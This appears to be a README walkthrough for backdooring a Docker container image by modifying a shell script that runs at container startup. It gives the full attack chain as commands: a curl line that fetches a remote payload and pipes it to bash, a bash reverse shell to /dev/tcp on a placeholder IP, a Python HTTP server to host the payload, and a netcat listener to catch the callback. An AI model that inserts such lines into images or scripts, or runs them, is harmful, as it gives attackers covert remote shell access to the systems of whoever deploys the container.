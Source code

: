 # Backdoored shell script in container image

## Scenario

You have the acccess to modify docker images either through source that contains a shell script called in the Dockerfile or through an image registry. The shell script that you can modify runs on startup (a pretty common scenario)

## Building the image

First you need to build the image. This is emulating the process that will take place whenever the target image is built. Based on our scenario the victim will either be pulling in the modified source shell script or you replaced the image in the registry after updating the shell script.

The line that ends up backdooring the image will be the following:

```curl -s http://<ip_address>:8000/payload.txt | bash```

### Build the image

* Update line 4 with the ip address of your payload server

```docker build -t backdoor .```

## Setting up the payload server

Next you need to setup the server that will host the file containing your payload. The payload can be anything you want to execute when the container is started. In this example we will use a reverse shell that calls back to a netcat server. I'm using python SimpleHTTPServer to host the file but this can be setup other ways as long as the file can be accessed.

### Create the payload file

```touch payload.txt```


### Add your payload (in this example the reverse shell)

```nohup bash -c bash -i >& /dev/tcp/<ip_address>/8080 0>&1```

* This payload example can be found in payload.txt
* Update the ip address and port with the values for your netcat server

### Starts a server on port 8000 by default

```python -m SimpleHTTPServer```

## Start your Netcat handler

This step is only required if you choose to make your payload a reverse shell. This step will start a netcat server that will handle the callback from your reverse shell.

### Start the netcat listener

```netcat -lkvp 8080```

## Start your container

This step emulates what will occur when the backdoored image is deployed and the container starts. The script in the case will only execute once when the container is started

### Start the Docker container (execute the payload)

```docker run -it backdoor```

If everything goes according to plan you should get a callback similar to the this [tweet](https://twitter.com/sneakerhax/status/1416870516976099330?s=20)
